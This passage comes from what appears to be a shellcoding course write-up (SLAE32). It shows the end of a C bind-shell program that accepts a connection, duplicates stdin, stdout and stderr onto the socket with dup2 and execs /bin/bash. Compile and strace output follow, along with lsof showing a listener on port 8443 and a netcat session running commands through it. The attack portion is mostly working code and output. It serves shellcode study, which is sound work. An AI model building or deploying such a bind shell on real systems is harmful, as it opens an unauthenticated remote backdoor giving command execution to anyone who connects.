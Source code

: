    new_sock = accept(server_sock, NULL, NULL);

    // http://man7.org/linux/man-pages/man2/dup.2.html
    // Duplicate the file descriptors for stdin[0], stdout[1], stderr[2]
    //  to a newly created socket [new_sock]
    // This will redirect all input, output and error over the listening
    //  socket, allowing interacting with the executed program
    for (i=0; i<=2; i++)
    {
        dup2(new_sock, i);
    }

    // http://man7.org/linux/man-pages/man2/execve.2.html
    // Execute the program SHELL /bin/bash
    execve(SHELL, NULL, NULL);

    return 0;
}
{% endhighlight %}

### Testing the prototype

After compiling C code, i ran the application which listening to `0.0.0.0` port `8443` and i could connect to the port `8443` from another terminal and able to get shell. Also from the `strace` command output below i could trace the specified set of system calls used during the execution. And from here i could start for the assembly code.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/bind$ gcc ./bind_shell.c -o bind_shell

kecebong@ubuntu:~/slae32/assigment/bind$ strace -e socket,bind,listen,accept,dup2,execve ./bind_shell
execve("./bind_shell", ["./bind_shell"], [/* 20 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(8443), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, 0, NULL)                      = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", [0], [/* 0 vars */]) = 0
socket(PF_FILE, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5
socket(PF_FILE, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~/slae32/assigment/bind$ lsof -i :8443
COMMAND    PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
bind_shel 9715 kecebong    3u  IPv4 198288      0t0  TCP *:8443 (LISTEN)

kecebong@ubuntu:~/slae32/assigment/bind$ nc -v localhost 8443
Connection to localhost 8443 port [tcp/*] succeeded!
whoami
kecebong
hostname -f
ubuntu
{% endhighlight %}
